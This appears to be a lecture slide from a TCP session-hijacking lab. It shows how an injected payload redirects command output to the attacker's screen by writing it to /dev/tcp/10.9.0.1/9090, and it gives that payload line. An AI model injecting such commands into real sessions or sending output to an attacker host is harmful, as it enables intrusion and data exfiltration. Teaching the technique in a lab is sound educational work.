

# Print to attacker’s screen
Data=“\r touch success” will print the result to the legal client’s screen (if it would do) but not the attacker screen.
To enable this, use

  Data=“\r touch success    >/dev/tcp/10.9.0.1/9090 \r”

This redfines the output to /dev/tcp/10.9.0.1/9090.

Server will explain /dev/tcp/10.9.0.1/9090 as it follows: it first establishes TCP connection to server 10.9.0.1 with port 9090 and writes the output to this new TCP connection.